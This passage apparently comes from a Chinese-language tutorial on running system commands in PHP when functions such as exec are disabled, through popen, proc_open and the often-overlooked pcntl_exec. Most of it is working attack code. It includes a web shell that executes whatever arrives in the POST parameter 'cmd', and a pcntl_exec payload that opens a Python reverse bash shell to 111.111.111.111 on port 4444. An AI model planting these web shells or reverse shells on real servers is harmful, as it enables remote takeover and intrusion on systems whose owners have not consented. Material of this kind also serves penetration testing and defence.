 **popen()**

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```

**proc_open()**

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```



#### 二、利用 pcntl_exec

使用条件：

* PHP安装并启用了pcntl插件

pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。

pcntl_exec()是pcntl插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序。

利用pcntl_exec()执行test.sh：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于pcntl_exec()函数执行命令无回显，需要配合上面的命令执行无回显知识点或用python反弹shell

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("111.111.111.111",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```

